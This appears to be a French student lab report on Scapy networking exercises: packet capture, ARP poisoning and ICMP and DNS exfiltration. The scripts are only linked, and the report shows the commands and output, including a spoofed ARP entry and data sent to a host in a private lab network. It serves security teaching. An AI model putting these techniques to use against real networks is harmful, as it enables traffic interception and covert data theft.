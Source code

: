 # TP4 SECU : Exfiltration

# Sommaire

- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

[Script](./Scripts/ping.py)

```sh
$ sudo python3 ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Answers :
 - QueryAnswer(query=<IP  frag=0 proto=icmp src=192.168.56.5 dst=192.168.56.1 |<ICMP  type=echo-request |>>, answer=<IP  version=4 ihl=5 tos=0x0 len=28 id=62475 flags= frag=0 ttl=64 proto=icmp chksum=0x957e src=192.168.56.1 dst=192.168.56.5 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
```

🌞 **`tcp_cap.py`**

[Script](./Scripts/tcp_cap.py)

```bash
$ sudo python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 142.250.179.78
- Adresse IP dst : 10.0.2.15
- Port TCP src : 443
- Port TCP dst : 47168
```

🌞 **`dns_cap.py`**

[Script](./Scripts/dns_cap.py)

```bash
$ dig ynov.com

; <<>> DiG 9.19.17-1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54956
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;ynov.com.			IN	A

;; ANSWER SECTION:
ynov.com.		2	IN	A	104.26.11.233
ynov.com.		2	IN	A	172.67.74.226
ynov.com.		2	IN	A	104.26.10.233

;; Query time: 8 msec
;; SERVER: 192.168.1.1#53(192.168.1.1) (UDP)
;; WHEN: Tue Nov 28 18:52:33 CET 2023
;; MSG SIZE  rcvd: 85
```

En même temps : 

```bash
$ sudo python3 dns_cap.py
104.26.11.233 ; 172.67.74.226 ; 104.26.10.233 ;
```

🌞 **`dns_lookup.py`**

[Script](./Scripts/dns_lookup.py)

```bash
$ sudo python3 dns_lookup.py
104.26.10.233 ; 104.26.11.233 ; 172.67.74.226 ;
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

[Script](./Scripts/arp_poisoning.py)

Depuis la cible :

```bash
$ ip a | grep 'inet ' | grep vboxnet0
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
$ ip n s | grep 10.13.33.37
```

Depuis l'attaquant :

```bash
$ ip a | grep 'inet ' | grep eth0 
    inet 192.168.56.5/24 brd 192.168.56.255 scope global dynamic noprefixroute eth0
$ sudo python3 arp_poisoning.py   
poisoning ongoing...
```

Depuis la cible :

```bash
$ ip n s | grep 10.13.33.37
10.13.33.37 dev vboxnet0 lladdr de:ad:be:ef:ca:fe STALE
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

[Script](./Scripts/icmp_exf_send.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.1 t
.
Sent 1 packets.
```

[Capture du ping.](./icmp_exfr_send.pcapng)

Contenu du ping en ascii : 
''NaE@À¨8À¨8ÿt

🌞 **`icmp_exf_receive.py`**

[Script](./Scripts/icmp_exf_rcv.py)

```bash
$ sudo python3 icmp_exf_send.py 192.168.56.5 t
.
Sent 1 packets.
```

```bash
$ sudo python3 icmp_exf_rcv.py
t
```

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

[Script](./Scripts/dns_exfiltration_send.py)

```bash
$ sudo python3 dns_exfiltration_send.py 192.168.56.1 testing_this_test_to_test_my_test_oki
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
```

[Capture des requêtes DNS](./dns_exfiltration_test.pcapng)
